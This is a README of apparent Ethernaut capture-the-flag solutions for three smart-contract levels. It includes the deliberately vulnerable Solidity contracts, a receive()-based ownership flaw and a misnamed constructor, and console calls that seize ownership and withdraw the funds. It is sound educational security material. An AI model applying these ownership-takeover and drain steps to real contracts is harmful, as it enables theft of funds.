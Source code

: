 # Ethernaut

My [Ethernaut](https://ethernaut.openzeppelin.com/) CTF Solutions.

## Table of Contents

<details>
<summary>
<a href="#00-hello-ethernaut">00. Hello Ethernaut</a>
</summary>
<ol>
    <li><a href="./contracts/00-hello-ethernaut/">Contracts</a></li>
    <li><a href="./scripts/00-hello-ethernaut.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#01-fallback">01. Fallback</a>
</summary>
<ol>
    <li><a href="./contracts/01-fallback/">Contracts</a></li>
    <li><a href="./scripts/01-fallback.ts">Script</a></li>
</ol>
</details>

<details>
<summary>
<a href="#02-fallout">02. Fallout</a>
</summary>
<ol>
    <li><a href="./contracts/02-fallout/">Contracts</a></li>
    <li><a href="./scripts/02-fallout.ts">Script</a></li>
</ol>
</details>

## 00. Hello Ethernaut

This is a warm-up task. Call `await contract.info()` in the console and follow the instructions.

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.info();
// 'You will find what you need in info1().'

// 2
await contract.info1();
// 'Try info2(), but with "hello" as a parameter.'

// 3
await contract.info2('hello');
// 'The property infoNum holds the number of the next info method to call.'

// 4
await contract.infoNum();
// {
//  ...
//  words: [42],
// };

// 5
await contract.info42();
// 'theMethodName is the name of the next method.'

// 6
await contract.theMethodName();
// 'The method name is method7123949.'

// 7
await contract.method7123949();
// 'If you know the password, submit it to authenticate().'

// 8
await contract.password();
// 'ethernaut0'

// 9
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Browser Console Solution For Cheaters</summary>

```javascript
await contract.authenticate('ethernaut0');
// tx receipt...
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's cheat the next challenge! :running:

</details>

<a href='./contracts/00-hello-ethernaut/'>Contracts</a> | <a href='./scripts/00-hello-ethernaut.ts'>Script</a>

## 01. Fallback

### Challenge

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

In order to pass the challenge, we need to become the owner of the contract and withdraw the entire balance from the contract.

In the instance contract, the owner is set in 3 places:

1. Constructor. When deploying a contract.
2. Method `contribute`. To do this, we need to transfer at least 1 wei (but less than 0.001 Ether).
3. Method `receive`. This method is called every time we send Ether to a contract address without calling any contract function.

Understanding how `receive` works is the key to hacking this smart contract.

> You can read about how the `receive` function works in the [official docs](https://docs.soliditylang.org/en/v0.8.24/contracts.html#receive-ether-function), [stackexchange](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity).

The `receive` function checks the user has sent some non-zero amount of ether (at least 1 wei) and has already contributed some amount of ether (less than 0.001 ether) by calling the `contribute` method.

The hacking algorithm is as follows:

1. We call `contribute` and send 1 wei along with the function call.
2. We send to the contract address 1 wei. We are now the owner of the contract.
3. Call the `withdraw` function.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.contribute({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.sendTransaction({
  to: contract.address,
  value: _ethers.utils.parseUnits('1', 'wei'),
});

// 3
await contract.withdraw();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<a href='./contracts/01-fallback/'>Contracts</a> | <a href='./scripts/01-fallback.ts'>Script</a>

## 02. Fallout

### Challenge

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

<details>
  <summary>Instance</summary>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

</details>

### Solution

<details>
  <summary>Description</summary>

Since Solidity v0.4.23, constructors are now specified using the `constructor` keyword.
Before this version, the constructor was a function whose name was the same as the name of the contract.
Since Solidity [v0.5.0](https://docs.soliditylang.org/en/v0.8.24/050-breaking-changes.html#constructors) constructors must be defined using the `constructor` keyword.

The only place in the contract where the owner is set is in the `Fal1out` function. According to the creator of the contract, this should have been a constructor that would work once and could not be called again. In this case, hacking would not have been possible (for solidity version less than v0.5.0). However, the author made a typo in the name of the constructor and instead of `Fallout` it turned out to be `Fal1out`. And now we can easily withdraw money from the contract.

1. Call the `Fal1out` function. We become the owner of the contract.
2. Call the `collectAllocations` function. We get all the money from the contract.

</details>

<details>
  <summary>Browser Console Solution</summary>

```javascript
// 1
await contract.Fal1out({ value: _ethers.utils.parseUnits('1', 'wei') });

// 2
await contract.collectAllocations();
```

Then click the "Submit instance" button.

Congratulations! :wink: Let's move on to the next challenge! :running:

</details>

<details>
  <summary>Real World Example Described By OpenZeppelin</summary>

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
}
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

</details>

<a href='./contracts/02-fallout/'>Contracts</a> | <a href='./scripts/02-fallout.ts'>Script</a>
